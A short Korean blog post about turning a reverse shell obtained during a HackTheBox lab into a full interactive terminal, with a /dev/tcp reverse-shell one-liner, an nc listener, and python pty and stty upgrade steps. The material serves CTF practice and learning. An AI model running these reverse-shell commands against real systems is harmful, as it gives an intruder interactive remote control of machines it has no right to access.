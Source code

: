 ```yaml
---
title: Shell Terminal 입출력 연결
categories: [ETC., Tools]
tags: [shell, pytho, pty, reverseshell]
image:
    path: /assets/image_post/20240228155410.png
---
```


htb 문제 풀이 중 shell 연결 시 화살표 입력, 자동 완성 등이 입력되지 않고 `]A` 와 같은 형태로 입력되어 다소 불편함이 존재한다. 이를 해결하는 방법을 찾아 공유한다.


보통 문제 풀이 중 아래와 같이 bash shell을 연결하는 경우가 필요하다.
``` bash
os-shell> bash -c 'sh -i >& /dev/tcp/10.10.14.175/443 0>&1'
```

해당 방식으로 reverse shell 연결 시 아래와 같이 `$`가 나타나며 명령어 입력이 가능하지만, 화살표와 같은 상호작용 입력을 줄 경우 아래와 같이 나타난다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.175] from (UNKNOWN) [10.129.95.174] 51146
sh: 0: can't access tty; job control turned off
$ ^[[A^[[A
```

> *pty.spawn(argv[, master_read[, stdin_read]])* </br> 프로세스를 스폰하고, 그것의 제어 터미널을 현재 프로세스의 표준 입출력과 연결합니다. 이것은 종종 제어 터미널에서 읽으려고 하는 프로그램을 조절하는 데 사용됩니다

아래와 같이 python으로 pty를 활성화 할 경우 기존과 다르게 쉘에 유저명 및 경로 등이 나타나게 된다. 다만, 해당 방식으로 적용하더라도 화살표 입력 등은 되지 않으며, 두번째와 같이 export TERM이 필요하다.
``` bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'    
postgres@vaccine:/var/lib/postgresql$
postgres@vaccine:/var/lib/postgresql$ ^[[A^[[A

postgres@vaccine:/var/lib/postgresql$ export TERM=xterm
export TERM=xterm
```

마지막으로 가장 중요한 단계인 `Ctrl+Z`로 연결을 한번 끊어야 한다. 연결을 끊더라도 바로 재연결이 가능하기에, 우선 끊어야 한다.
``` bash
postgres@vaccine:/var/lib/postgresql$ ^Z
zsh: suspended  nc -lnvp 443
```
위에서 연결을 끊었다면 이제 아래와 같이 `stty raw -echo ; fg`를 입력해주면 된다. 그렇다면 이전의 연결이 자동으로 이루어지며, 화살표 입력도 가능해진다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# stty raw -echo ; fg
[15]    continued  nc -lnvp 443

postgres@vaccine:/var/lib/postgresql$
```

참고 링크
> https://medium.com/@aniketdas07770/hackthebox-vaccine-writeup-f5e19028a3fa
